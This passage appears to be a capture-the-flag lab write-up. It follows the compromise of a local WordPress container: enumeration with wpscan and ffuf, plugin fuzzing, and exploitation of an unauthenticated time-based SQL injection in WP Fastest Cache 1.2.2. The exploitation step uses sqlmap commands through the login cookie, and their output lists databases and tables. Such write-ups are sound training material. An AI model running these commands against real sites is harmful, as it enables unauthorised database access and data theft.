 ![[attachment/28ab02ad0df0cdb7c12824805e487a55.png]]

Knowing it’s a WordPress site, we manually enumerated themes and plugins in the source code but found nothing significant. Next, we used the "wpscan" tool to gather more information about this WordPress site:

```
wpscan --url http://172.17.0.2/ --enumerate 
```

![[attachment/0e2952079803ef84486ed282eeacff39.png]]

Wpscan initially failed to identify the website as a WordPress site. After attempting different scan options, we utilized the '--force' option, enabling WPScan to successfully detect WordPress. However, it did not reveal any installed themes or plugins.

![[attachment/67faf24c7df4c520521f2efa458e90f9.png]]

Since FFUF previously detected directories indicative of WordPress, we continued manual enumeration. The file `xmlrpc.php` is not present. The `xmlrpc` API, if enabled and misconfigured, can allow attacks such as XML-RPC pingbacks and brute force attacks. However, in our case, it is not active, so no actions can be taken.

Upon enumerating directories, we found the "plugins" directory, which exists but doesn't list any content. We decided to fuzz for plugins present in the system using a wordlist for WordPress plugins from [this repository](https://github.com/kongsec/Wordpress-BruteForce-List/blob/main/Fuzz):

```
❯ wget https://raw.githubusercontent.com/kongsec/Wordpress-BruteForce-List/main/Fuzz
❯ grep "/wp-content/plugins/" Fuzz > pluginsfuzz 
	❯ ffuf -u http://172.17.0.2/FUZZ -w pluginsfuzz -fs 0
```

![[attachment/f5fa9414962b8af95519c49d34421b20.png]]

Using this method, we discovered an interesting plugin. Checking it in the browser revealed more information.
![[attachment/0ccc9200dc420d8363c5d6ed6a8105b1.png]]

According to our research, version 1.2.2 of the WP Fastest Cache plugin has a known SQL injection vulnerability, allowing an attacker to execute SQL queries on the system without authentication.

This SQL injection vulnerability is time-based, so we used sqlmap to automate the exploitation process:
```
❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -dbs --batch  --level=2
available databases [2]:
[*] information_schema
[*] wordpress

❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -D wordpress -tables --batch --level=2
Database: wordpress
[13 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_loginizer_logs     |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
```